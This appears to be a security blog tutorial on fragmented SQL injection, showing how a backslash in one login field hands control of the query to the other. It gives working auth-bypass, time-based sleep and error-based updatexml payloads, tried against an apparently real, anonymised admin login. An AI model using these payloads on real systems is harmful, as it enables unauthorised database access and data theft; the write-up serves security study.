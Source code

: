 ```yaml
---
title: Fragmented SQL injection.
date: 2025-01-25 20-00-00
categories: SQLi
tags: sql, injection
description: Bypass filters designed to block string-based SQL injection.
---
```



## Why This happen ?

This bypass occurs when two input fields are combined to exploit the authentication form.

If attackers can control multiple inputs and those inputs are processed within the same query, they can use fragmented payloads to evade blacklists and character restrictions with this technique.

Here is an example of login query that take two inputs from user.

```sql
SELECT * FROM login WHERE username = '$username' AND password = '$password';
```

but there is a filter function that strip single quote from user inputs.

example :

```php
function someFilter($input) {
    return str_replace("'", "", $input);
}
```

if an attacker try to bypass login :

```
$username = "' or 1=1#";
$password = "uzundz"
```

```sql

select * from users where username=' or 1=1#' and password='uzundz';
```

the single quote was striped , therfore the auth bypass fail.

## Escaping the string quote :

Fortunately, SQL provides a way to escape special characters using a backslash ( \ )!

```sql
SELECT 'Uzun\'Dz'
```

![Desktop View](images/escapesinglequote.jpg){: .normal }

However, this behavior can be exploited outside its original context, allowing us to manipulate the parsing of SQL statements, as demonstrated in the following example:

```sql
SELECT * FROM login WHERE username = '$username' AND password = '$password';
```

Using a backslash as $username causes the parser to treat the next single quote as a regular character, effectively ignoring it. The parser then searches for the next single quote to pair with the initial one, which ends up being the quote that starts the password value.

What parser will do is the following:


```sql
SELECT * FROM login WHERE username = '\' AND password = '$password';
```
the username field will take `\' AND password =`  as value.
So by controlling the $password field, we can control the query.


## Real world scenario :

During my exploration on a specific domain ( let's refer to it as WEBSITE).
I stumbled upon an admin login at https://WEBSITE/admin/index.php 

first thing to check is auth bypass :

```
username: ' or 1=1-- -
password: strongPass
```

that didn't work because there is a filter in place that replace single quote with nothing.

Here backslash Trick will be handy.
trying the following values for username and password.

```
username: \
password: admin
```

Error :
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin')' at line 1
```

let's inverse :
```
username: admin
password: \
```

Error :

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''\')' at line 1
```

### Conclusion :

- ablity to control both parameter in current sql query.
- ablity to escape single quote by using backslash \
- as result we can control the query.
- there is a parenthesis at the end of password field.

Next, i tried sleep function to observe the response time : 

```
username: \
password: and if (1=1 , sleep(15), 0) )-- -
```
Error:

```
Incorrect number of arguments for PROCEDURE DATABASENAME.exampleFunction; expected 2, got 1
```

during the exploitation process i created this tiny database to play with.
and i will use it to show what i faced with the target.

<a href="https://sqlfiddle.com/mysql/online-compiler?id=f437f206-b438-432b-ae21-d8ee12f7816b"> SQL fiddle </a>

imagination of procedure call :

```sql
DELIMITER //
CREATE PROCEDURE exampleFunction ( IN user VARCHAR(255) , IN pass VARCHAR(255))  
BEGIN  
    SELECT * FROM user_table WHERE username = user and password = pass;     
END //
DELIMITER ; 
```

in php code something like that :

```php
$query = "CALL exampleFunction('$username','$password')"
```

remeber that we injected \ in username to break from string
and our payload in password , something like that :

```php
$query = "CALL exampleFunction('\','and if (1=1 , sleep(15), 0) )-- -')"
```

that raised the error :
```
Incorrect number of arguments for PROCEDURE DATABASENAME.exampleFunction; expected 2, got 1
```

Example in fiddle :

![Desktop View](images/sqlifiddle1.PNG){: .normal }

the username field took this value `\',` and, without the colon the exampleFunction received one arguemnt.

tweak our payload to have two arguments by adding seperator `,` in password field :

```
username: \
password: ,if(1=1,sleep(15),0))-- -
```

query be like :

```php
$query = "CALL exampleFunction('\',' , if (1=1,sleep(15),0))-- -')"
```

imagination of SELECT statement after the procedure call :

```sql
SELECT * FROM user_table WHERE column1 = '\',' and password = if (1=1,sleep(15),0)-- -;   
```

The response took more than 15 seconds to load , which mean sleep() executed successfully.

![Desktop View](images/sleepexec.PNG){: .normal }

### Trying error based approach :

Set the folowing values to username and password.

```
username = \
password = , updatexml(null,concat(0x7e,database(),0x7e),null))-- -
```

### Result 

```
XPATH syntax error: '~DATABASENAME~'
```

Example in  fiddle :

![Desktop View](images/sqlifiddle2.PNG){: .normal }


